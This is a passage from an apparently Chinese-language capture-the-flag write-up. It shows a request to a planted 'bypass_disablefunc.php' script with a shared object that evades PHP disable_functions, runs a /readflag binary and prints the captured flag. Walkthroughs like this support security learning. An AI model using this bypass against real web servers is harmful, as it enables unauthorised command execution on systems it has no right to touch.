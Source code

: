 ![16fe650202b4cd54c34d2d75e285a096](images/16fe650202b4cd54c34d2d75e285a096.png)

> 🔍 发现 `/readflag` 可疑可执行文件

------

### 第二步：读取 flag

```bash
http://121.4.91.93:12346/bootstrap/test/bypass_disablefunc.php?cmd=/readflag&outpath=/tmp/flag_result&sopath=/var/www/html/bootstrap/test/bypass_disablefunc_x64.so
```

### 返回结果：

```
flag{8382843b-d3e8-72fc-6625-ba5269953b212321343}
```

![505acda6c92d8efd9664fd2c9bb022d4](images/505acda6c92d8efd9664fd2c9bb022d4.png)

